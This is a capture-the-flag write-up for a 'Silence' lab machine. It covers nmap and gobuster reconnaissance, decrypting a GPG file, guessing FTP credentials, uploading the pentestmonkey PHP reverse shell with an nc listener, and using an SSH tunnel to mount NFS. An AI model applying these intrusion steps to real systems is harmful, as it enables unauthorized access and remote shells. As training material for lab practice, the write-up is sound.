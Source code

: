 # CTF: Silence

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre](https://img.shields.io/badge/by-Alexandre-%23f9a03c)  
![alt text](img/silence.png)
## Description

> What does it takes to climb the world’s first 9c?

## Write-up

WebFlag: web.txt
UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### Web Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)

80/tcp open  http    Apache httpd 2.4.37 ((centos))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have three open ports, 21, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We can do a `gobuster` scan to find hidden directories.

```bash
gobuster dir --url http://<IP> -w Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,js
```

Results : 
```bash
/hidden (Status: 301)
```

We have to go to the hidden directory.

```bash
http://$IP/hidden
```

We find a zip file. We can download it and extract it.

```bash
wget http://<IP>/hidden/stats.zip
unzip stats.zip
inflating: ClimbersStats.xlsx.gpg  
inflating: .hidden-key  
```

We have a `.hidden-key` file. We can decrypt it using `gpg`.

```bash
gpg --import .hidden-key
gpg --output ClimbersStats.xlsx --decrypt ClimbersStats.xlsx.gpg
```

We have a file `ClimbersStats.xlsx`. We can go online and open the file.

We have a list of climbers with their names, the route they climbed, the date they climbed it, and the time they took to climb it.

We have to try all username and password combinations to find the right one for the ftp server.
    
```bash
ftp $IP
ls -al
```

We found files of the website. We can upload a reverse shell to the server.
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

```bash
put reverse.php
```

We can connect to the reverse shell.

```bash
nc -lvnp 4444
```

We can connect to the reverse shell.

```bash
http://$IP/reverse.php
```

We can try to find the web flag.

```bash
find / -name web.txt 2>/dev/null
```

We have just to cat the file.

```bash
cat <PATH>/web.txt
```

**Well done! You found the web flag!**

### User Flag

We have to create an SSH tunnel to connect to the nfs server.

Login with the username and password we found in the `ClimbersStats.xlsx` file.
```bash
ssh -L 2001:127.0.0.1:2049 <USERNAME>@<IP>
```

On other terminal, we can mount the nfs server.

```
mkdir nfs && mount -t nfs -o rw 127.0.0.1: nfs
```

And we have to find the user flag.

**Well done! You found the user flag!**
